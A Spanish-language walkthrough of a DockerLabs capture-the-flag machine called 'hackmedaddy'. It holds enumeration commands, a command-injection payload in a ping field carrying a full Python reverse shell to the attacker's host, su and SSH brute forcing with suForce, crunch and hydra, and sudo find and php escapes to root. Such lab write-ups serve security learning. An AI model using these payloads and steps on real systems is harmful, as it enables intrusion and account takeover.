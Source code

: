 nmap:  22,80

![[dockerlabs/dificil/hackmedaddy/nmap.png]]

---
En la pagina principal hay un botón que cada vez que se presiona cambia de comando y hay un comando en especifico que llamo la atencion:

![[dockerlabs/dificil/hackmedaddy/pagina principal.png]]

esto es lo que aparece en la pagina

> root@hackmedaddy:~# cat README.txt
 d05notfound exploit payload shell bruteforce vulnerability cipher zero-day phishing

lo que igual da un posible usuario: d05notfound

al hacer un gobuster no da varias:

     gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt -k


![[dockerlabs/dificil/hackmedaddy/gobuster.png]]

no da tres que nos sirven: Info.txt, flag.txt y robots.txt

dentro de robots.txt
![[dockerlabs/dificil/hackmedaddy/pagina2.png]]

en info.txt:
![[Pasted image 20250103115908.png]]

donde tenemos un usuario: Eliot

y en flag.txt:
![[pagina4.png]]

el primer posible error al final era un parámetro y queda así:
 
    http://172.17.0.2/d05notfound/d05notfound.php

![[dockerlabs/dificil/hackmedaddy/panel1.png]]

donde hay un panel de ejecución de comandos  y funcionamiento del sistema
vamos a la parte final de la pagina donde podemos ejecutar ping, capturamos con burpsuite y probamos si tenemos ping

![[ping1.png]]

ahora probamos y por ejemplo al colocar un comando mas podemos ver los archivos así:
> -c+1+google.com+|+ls+-la

![[ping2.png]]

como se que funciona podemos tirar una reverse shell: https://www.revshells.com/
elegimos la python3 #2



la pegamos en burpsuite y queda así: 

     - comando=-c%2b1%2bgoogle.com%2b|+python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("172.17.0.1",443))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("sh")'


mientras esta el terminal en escucha y ahora estamos dentro, hacemos un tratamiento stty y empezamos a escalar

![[dockerlabs/dificil/hackmedaddy/conexion.png]]

en home hay dos usuarios: Eliot y an0n1mat0. una nota 

![[dockerlabs/dificil/hackmedaddy/nota.png]]


entramos con eliot a documentos y hay dos archivos llamados:

      - agenda.txt
      - agenda_password.txt

![[agenda.png]]
![[dockerlabs/dificil/hackmedaddy/nota2.png]]

que contienen nombres y contraseñas, hacemos un tmp un wordlists con eso
hacemos este comando:
> ./suForce -u e1i0t /home/e1i0t/documents/agenda.txt

nos dará que la contraseña es: eliotelmejor

podemos entrar por la misma maquina o por ssh

![[eliot.png]]

al hacer un sudo -l da:
> (an0n1mat0 : an0n1mat0) NOPASSWD: /bin/find

vamos a: https://gtfobins.github.io/gtfobins/find/#sudo

![[dockerlabs/dificil/hackmedaddy/gtf.png]]

después de intentar y ver como pasar con el find encontré como:

![[dockerlabs/dificil/hackmedaddy/usuario2.png]]


dentro de anonimato en home hay un nota.txt que tiene: 

![[notas2.png]]

si vamos a la carpeta raiz > secret > confidencial.txt
dice:

![[dockerlabs/dificil/hackmedaddy/secret.png]]

dice que hay un txt llamado password pero no se donde esta así que utilizamos el comando:
> find / -name "passwords_users.txt" 2>/dev/null

nos da la ruta: /usr/local/bin/passwords_users.txt

llegamos a la ruta y dice: 

![[rutas.png]]

en nuestra terminal ejecutamos: crunch 12 12 abcdefghijklmnopqrstuvwxyz -o numbers -t @@yanonymous

lo pasamos a la maquina victima por wget, nos pasamos a la /tmp

![[wget.png]]


como no tenemos la contraseña de an0n1mat0 hacemos una fuerza bruta con el nombre de usuario que tenemos y con el archivo numbers que sacamos

    hydra -l an0n1mat0 -P numbers ssh://172.17.0.2 

nos da la contraseña: soyanonymous

ahora que tenemos la contraseña podemos hacer el sudo -l que nos da: 
> (ALL : ALL) /bin/php


buscamos otra ves en: https://gtfobins.github.io/gtfobins/php/#sudo

![[php.png]]

ejecutamos: 

     - CMD="/bin/sh"
     - sudo php -r "system('$CMD');"

haremos un bash -p

![[dockerlabs/dificil/hackmedaddy/root.png]]

y somos root!
